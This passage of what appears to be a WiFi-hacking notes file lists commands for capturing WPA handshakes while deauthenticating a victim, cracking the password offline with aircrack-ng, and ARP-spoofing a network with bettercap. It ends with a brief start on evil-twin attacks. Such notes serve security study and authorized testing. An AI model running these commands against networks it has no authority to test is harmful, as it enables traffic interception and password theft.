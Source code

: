    > Using two terminals, one started listening for clients connecting to the BSSID chosen and the second to de-authenticate a victim for a while - will cause constant re-authentication and ability to capture handshakes

    ```bash
    # Capture clients in the target network and write to a file named psk
    airodump-ng -c 10 --bssid <BSSID> -w psk wlan1mon
    # Deauthenticate some client
    aireplay-ng --deauth 0 -a <BSSID> -c <Victim> wlan1mon
    ```

* Offline crack the password for the network using command `aircrack-ng` with packets captured and a wordlist

    > Crack the password offline with help of a dictionary (list of words)

    ```bash
    # Using the captured handshakes, attempt to crack the network offline using a dictionary. Note: You will need a list of passwords/dictionary/table for this to work. 
    aircrack-ng -w password.lst -b <BSSID> psk*.cap
    ```

# Chuck Attacks:

## Noob - ARP spoofing

Reconnaissance:
`sudo bettercap -iface wlan0` with `net.probe on` - scan the WiFi network and find targets

`net.show` - see what was found (a target)

Man-in-the-Middle attack: 

* ARP spoofing + establish two connections that seem to function normally

    `set arp.spoof.fullduplex true` - set up ARP
    `set arp.spoof.targets 192.168.0.1` - specify target
    `arp.spoof on` - activate spoofing

**VPN protects against it with encryption!**

## Hipster - Evil Twin attack

**Flipper Zero** tool

Evil twins are essentially creating an invisible  access point with the same SSID as your legitimate one
